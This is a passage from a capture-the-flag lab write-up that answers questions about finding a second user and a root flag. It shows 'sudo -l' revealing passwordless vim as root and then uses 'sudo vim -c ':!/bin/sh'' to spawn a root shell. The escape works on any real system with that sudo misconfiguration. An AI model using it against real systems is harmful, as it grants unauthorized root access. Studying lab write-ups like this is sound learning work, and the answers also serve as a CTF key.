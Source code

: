 ### #8 Is there any other user in the home directory? What's its name?
```
$ pwd
/home/mitch
$ cd /home
$ ls -la
total 16
drwxr-xr-x  4 root    root    4096 aug 17  2019 .
drwxr-xr-x 23 root    root    4096 aug 19  2019 ..
drwxr-x---  3 mitch   mitch   4096 aug 19  2019 mitch
drwxr-x--- 16 sunbath sunbath 4096 aug 19  2019 sunbath
$ 
```
ANS: `sunbath`

### #9 What can you leverage to spawn a privileged shell?
```
$ sudo -l
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
$ 
```
ANS: `vim`

### #10 What's the root flag?

The clue for privilege escalation is using `vim`. We recommend following a tutorial on how to execute privilege escalation using `vim` from gtfobins -> https://gtfobins.github.io/gtfobins/vim/

![vim-gtfobins](/assets/images/thm-simple-ctf/vim-gtfobins.png)

```
$ sudo vim -c ':!/bin/sh'

# ls -la 
total 16
drwxr-xr-x  4 root    root    4096 aug 17  2019 .
drwxr-xr-x 23 root    root    4096 aug 19  2019 ..
drwxr-x---  3 mitch   mitch   4096 aug 19  2019 mitch
drwxr-x--- 16 sunbath sunbath 4096 aug 19  2019 sunbath
# cd /root
# ls
root.txt
# cat root.txt
W3ll d0n3. You made it!
```